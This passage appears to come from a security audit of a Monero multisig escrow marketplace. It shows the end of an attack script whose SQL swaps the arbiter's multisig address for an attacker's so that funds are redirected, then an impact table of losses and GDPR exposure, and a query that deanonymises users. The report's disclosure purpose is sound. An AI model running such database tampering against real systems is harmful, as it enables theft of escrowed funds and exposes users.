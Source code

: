 ```bash
SET arbiter_multisig_info = json_replace(
    arbiter_multisig_info,
    '$.address',
    '$ATTACKER_ADDRESS'
)
WHERE phase = 'ExchangingInfo';

COMMIT;
EOF

echo "[!] Modification complete - next escrow will use attacker's address"
echo "[!] No logs, no alerts, no detection possible"
```

**Impact:**
- Funds redirected to attacker-controlled multisig
- Modification indistinguishable from legitimate update
- No cryptographic signature prevents tampering

---

## Impact Assessment

### Financial Impact

**Scenario:** Production deployment with 100 active escrows

| Attack Vector | Avg Escrow Value | Escrows at Risk | Total Loss |
|---------------|------------------|-----------------|------------|
| State Seizure | 0.5 XMR | 100 | 50 XMR (~$7,500) |
| RCE Exploit | 0.5 XMR | 100 | 50 XMR (~$7,500) |
| Insider Theft | 0.5 XMR | 100 | 50 XMR (~$7,500) |

**Regulatory Impact:**
- **GDPR Violation:** Article 32 (Security of Processing) - Up to €20M fine
- **Data Breach Notification:** Article 33 - Must notify within 72 hours
- **Reputation Damage:** Marketplace shutdown, criminal investigation

---

### Privacy Impact

**User Deanonymization Risk:**

```sql
-- What attacker sees after decrypting database
SELECT
    u.username,
    o.buyer_id,
    o.seller_id,
    m.buyer_multisig_info,
    m.vendor_multisig_info,
    m.arbiter_multisig_info,
    m.multisig_address
FROM orders o
JOIN multisig_states m ON o.id = m.escrow_id
JOIN users u ON o.buyer_id = u.id;
```
